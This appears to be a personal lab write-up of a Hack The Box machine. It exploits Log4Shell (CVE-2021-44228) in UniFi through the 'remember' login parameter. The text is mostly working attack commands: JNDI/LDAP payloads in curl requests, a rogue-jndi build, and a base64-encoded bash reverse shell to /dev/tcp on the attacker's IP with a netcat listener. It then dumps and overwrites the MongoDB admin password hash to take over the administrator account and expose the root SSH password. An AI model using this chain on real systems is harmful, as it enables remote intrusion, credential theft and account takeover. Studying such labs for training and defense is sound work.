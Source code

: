 https://www.hackthebox.com/blog/Whats-Going-On-With-Log4j-Exploitation

#CVE-2021-44228
Log4J in a very well known network appliance monitoring system called "UniFi"
the Log4J vulnerability manipulate a POST header called remember , giving you a reverse shell on the machine. You'll also change the administrator's password by altering the hash saved in the MongoDB instance that is running on the system, which will allow access to the administration panel and leads to the disclosure of the administrator's SSH password.



we intercept the login request with burp and add our payload into remember parameter 
![[Pasted image 20221118184918.png]]

**JNDI: is the acronym for the Java Naming and Directory Interface API**
**LDAP: is the acronym for Lightweight Directory Access Protocol**
if we get an error that means there is the website is vulnerable to Log4j 

Payload:
```javascript
"${jndi:ldap://10.10.16.24/something}"

```
https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi

**Check for vuln** 

To test for the vulnerability, let’s first grab a hostname from dnslog.cn and insert it in the following cURL command:
```bash
curl -i -s -k -X POST -H $'Host: 192.168.11.10:8443' -H $'Content-Length: 104' --data-binary $'{\"username\":\"a\",\"password\":\"a\",\"remember\":\"${jndi:ldap://eb0uvi.dnslog.cn:1389/o=tomcat}\",\"strict\":true}' $'https://192.168.11.10:8443/api/login'



curl -i -s -k -X POST -H $'Host: 10.129.96.149:8443' -H $'Content-Length: 104' --data-binary $'{\"username\":\"a\",\"password\":\"a\",\"remember\":\"${jndi:ldap://10.10.16.42:80/o=tomcat}\",\"strict\":true}' $'https://10.129.96.149:8443/api/login'  


```

![[Pasted image 20221118194150.png]]
and we have Log4j
Let's proceed to starting tcpdump on port 389 , which will monitor the network traffic for LDAP connections.

```
sudo tcpdump -i tun0 port 389
```

We will have to install Open-JDK and Maven on our system in order to build a payload that we can send to the server and will give us Remote Code Execution on the vulnerable system

**Open-JDK: is the Java Development kit, which is used to build Java applications**

**Maven: is an Integrated Development Environment (IDE) that can be used to create a structured project and compile our projects into jar files .**

These applications will also help us run the rogue-jndi Java application, which starts a local LDAP server and allows us to receive connections back from the vulnerable server and execute malicious code.

```bash

# openjdk
sudo apt update
sudo apt install openjdk-11-jdk -y 
java -version

# maven
sudo apt-get install maven

mvn -v 


# Rouge jdi
git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi && mvn package
```
![[Pasted image 20221118200618.png]]

This will create a .jar file in rogue-jndi/target/ directory called RogueJndi-1.1.jar . Now we can construct our payload to pass into the RogueJndi-1-1.jar Java application

To use the Rogue-JNDI server we will have to construct and pass it a payload, which will be responsible for giving us a shell on the affected system. We will be Base64 encoding the payload to prevent any encoding issues.

```bash
echo 'bash -c bash -i >&/dev/tcp/{Your IP Address}/{A port of your choice} 0>&1' | base64

java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,BASE64 STRING HERE}| {base64,-d}|{bash,-i}" --hostname "{YOUR TUN0 IP ADDRESS}

# e.g

java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTYuNDIvOTAwMSAwPiYxCg==}|{base64,- d}|{bash,-i}" --hostname "10.10.16.42"


```
![[Pasted image 20221118201004.png]]

now we open a listener and run our payload

```bash
nc -lvp 4444 #listener 

${jndi:ldap://{Your Tun0 IP}:1389/o=tomcat} # remember paramater value

curl -i -s -k -X POST -H $'Host: 10.129.96.149:8443' -H $'Content-Length: 104' --data-binary $'{\"username\":\"a\",\"password\":\"a\",\"remember\":\"${jndi:ldap://10.10.16.42:1389/o=tomcat}\",\"strict\":true}' $'https://10.129.96.149:8443/api/login' # curl for the request

```
![[Pasted image 20221118204812.png]]

# Privilege escalation 

Look for mongodb on the machine [[03 Commands/Linux/Linux]]
```bash
ps aux | grep mongo
```
![[Pasted image 20221118205506.png]]


## extract admin password


```bash
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```
![[Pasted image 20221118210446.png]]


![[Pasted image 20221118210115.png]]

now we can send this hash to hash cat and crack it 

![[Pasted image 20221118210355.png]]
or if it's hard to crack it we can try to change the password value in Mongodb with out password to do that
first we need to create a password with same encryption

```bash
mkpasswd -m SHA-512 password123
```
Let's proceed to replacing the existing hash with the one we created.



```bash
# Change the password value to our password

mongo --port 27117 ace --eval 'db.admin.update({"_id": ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"SHA_512 Hash Generated"}})'


```
![[Pasted image 20221118211043.png]]
now we have access to UniFi and we can login as administrator 
![[Pasted image 20221118211355.png]]

UniFi offers a setting for SSH Authentication, which is a functionality that allows you to administer other Access Points over SSH from a console or terminal.
Navigate to settings -> site and scroll down to find the SSH Authentication setting. SSH authentication with a root password has been enabled.

![[Pasted image 20221118211459.png]]

![[Pasted image 20221118211558.png]]